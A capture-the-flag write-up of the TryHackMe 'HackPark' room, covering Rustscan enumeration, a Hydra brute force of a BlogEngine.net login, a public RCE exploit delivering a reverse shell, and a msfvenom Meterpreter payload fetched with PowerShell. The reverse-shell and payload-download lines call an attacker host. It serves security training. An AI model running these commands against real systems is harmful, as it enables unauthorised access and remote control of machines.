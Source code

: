 # HackPark 

## Enumeration

I kicked off Enumeration on this particular target by running Rustscan on the target. 

```
rustscan -a $machine_IP -- -A -sV -sC -vv                                                                                                                    
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:80
Open $machine_IP:3389

PORT     STATE SERVICE            REASON  VERSION
80/tcp   open  http               syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
|_http-title: hackpark | hackpark amusements
|_http-server-header: Microsoft-IIS/8.5
3389/tcp open  ssl/ms-wbt-server? syn-ack
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
```

Navigating to the $machine_IP on port 80 reveals a standard blog entry page. On the right-hand side menu of the webpage, there is a login prompt. This leads us to a `blogengine.net` login form and I attempt default credentials and intercept this request in order to fuzz and brute force with Hydra. 

Once I identified the login page to attack, next up is working out what type of request the form is making to the webserver. Webservers typically, make two types of requests
1. GET Request - requests data **from** a webserver
2. POST Request - sends data **to** a webserver

I was able to verify what type of request the login form was making my Inspecting the Element and picking up the appropriate value in the `method` field. 

![post](Images/postrequest.png)

![burp](Images/burp-request.png)

Bruteforcing with Hydra requires valid parameters for URL, Form Parameters and login error message. To achieve this I ran an authentication request through Burp Suite. Having become much more familiar with Burp Suite since completing this room, I would default to using Burp Intruder for bruteforcing and fuzzing login fields. However, in this case, I was able to successfully do this via Hydra.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $machine_IP http-post-form "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE= <VIEWSTATE> 24LoginUser%24UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login Failed"
```

![hydra](Images/hydrapasscrack.png)

Having cracked the password, I was able to utilize a authenticated Directory Traversal RCE on BlogEngine 3.3.6 through [ExploitDB](https://www.exploit-db.com/exploits/46353). The attack involves setting the TCP Client address and port to the attack machine which has a reverse listener (netcat in this case) waiting in place to pick up the reverse shell. 

I then changed the IP and port to fit, renamed the file to `PostView.ascx` as this is a pre-requisite in the exploit, and uploaded it to the target webserver which was picked up by my netcat listener and I promptly received a reverse shell. 

```
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("$_IP", 443))
```

![revshellupload](Images/fileupload.png)

![ncshell](Images/revshell.png)

## Privilege Escalation

My initial reverse shell gave me a standard command-line prompt and for the purposes of this room, I upgraded to a Meterpreter shell for ease of access. For this step, I follow my regular process of setting up a `reverse_tcp` payload and picking it up with a Metasploit `/multi/handler` module. 

I start off by opening Metasploit and setting `shell_reverse_tcp` as the payload in `/multi/handler`. 

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
```

Meanwhile, I generate the Msfvenom payload, pointing my THM IP as `LHOST` and an appropriate `LPORT` and saving it as an `.exe` file. 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=THM_IP LPORT=9999 -f exe > shell.exe
```

Then I send it over to the client and `/multi/handler` picks up the connection. 

```
c:\Windows\Temp>
powershell "(New-Object System.Net.WebClient).DownloadFile('http://THM_IP:8000/shell.exe','shell.exe')"
```

The shell sticks and I get a Meterpreter shell. 